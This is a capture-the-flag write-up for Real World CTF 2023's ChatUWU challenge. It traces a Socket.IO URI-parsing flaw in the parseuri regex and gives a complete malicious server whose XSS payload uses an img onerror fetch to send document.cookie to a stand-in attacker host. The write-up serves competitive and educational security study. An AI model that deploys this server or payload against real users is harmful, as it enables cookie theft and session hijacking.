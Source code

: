 ```yaml
---
layout: post
title: "Real World CTF 2023: ChatUWU Writeup"
categories: writeups
author: WhoNeedsSleep
---
```


[Real World CTF 2023](https://realworldctf.com/challenge) is a jeopardy-style capture-the-flag event, known for its realistic challenges.
We participated as part of the [Sauercloud](https://ctftime.org/team/54748) CTF team.

## Overview
The challenge description reads: "I can ensure you that there is no xss on the server! You will find the flag in the admin's cookie." Also provided are links to the challenge and the XSS bot, as well as the source code. So immediately our goal is clear: steal the cookies of the XSS bot!

Let's take a look at the application:
The challenge is a simple Node.js app with one static HTML file, that is served, and a single `index.js` for as the backend. The app is a simple chat app.

## Let's find an XSS

Upon taking a look at `index.html` we first see that is uses `Socket.IO` for the chat communication with the server and also quickly find this:
```js
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `... ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext 
    ...
    messages.appendChild(item);
    ...
```

So any messages received via `Socket.IO` are inserted into the DOM without sanitization if the chat-room's name is `DOMPurify` and the message's `isHtml` field is `true`.
So let's try to send a message containing a XSS payload

![Screenshot escaped Message](/imgs/rwctf23-chatuwu-escaped-message.png)

Clearly that didn't work -- so the server must have sanitized it before sending it back to all clients.

## The Server Code

Here we immediately see why our simple attempt failed:
```js
io.to(room).emit('msg', {
    from: DOMPurify.sanitize(msg.from),
    text: DOMPurify.sanitize(msg.text),
    isHtml: true
});
```
Any message send to the clients is piped through DOMPurify -- RIP simple XSS.

## A Different Approach 

Given the simplicity of the app, we were pretty sure that the client side DOM injection is our way of stealing the cookie. So maybe, we can attack the connection by hijacking the `Socket.IO` connection.

Let's see how the client establishes the connection:
```js
let socket = io(`/${location.search}`) 
```

Interestingly, the entire query string is passed into `Socket.IO` for parsing. Let's take a look at how the parsing works. In the used `socket.io.js` we find this in the constructor:
```js
uri = parse(uri);
opts.hostname = uri.host
```
Looks promising. We can completely control `uri` except for the leading `/`. Let's dig deeper. For `parse` we find this:
```js
  // imported from https://github.com/galkn/parseuri

  /**
   * Parses an URI
   *
   * @author Steven Levithan <stevenlevithan.com> (MIT license)
   * @api private
   */
  ...
  function parse(str) {...}
```

In the repo we find this issue: (https://github.com/galkn/parseuri/issues/12)[https://github.com/galkn/parseuri/issues/12], and it's still open! Unfortunately, there are no details about the security issue, so we need to find it ourselves.

## The Vulnerability

Let's take a look at the regex used for the parsing of `uri`:
```js
var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
```

The interesting part for us is that it checks for username/password as part of the uri and it does so by looking for any string in front of the first `@` in the passed uri, not just in the authority part. So if we append `@our.domain.invalid` to the end of `uri`, the parse function will treat everything between the protocol and the `@` as a username and `our.domain.invalid` as the hostname.
This is the vulnerability we need.

## The Exploit

Idea: We will host a malicious version of `index.js` ourselves with a key addition: a JavaScript payload that exfiltrates the cookie is sent, instead of the normal join message. It is sent after a user joins to all users including the joining one.

Code:
```js
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 80;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: "<img src onerror='fetch(\"https://our.domain.invalid/?\" + document.cookie)'>",
        isHtml: true
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

We get the flag 🍉:
```
rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```
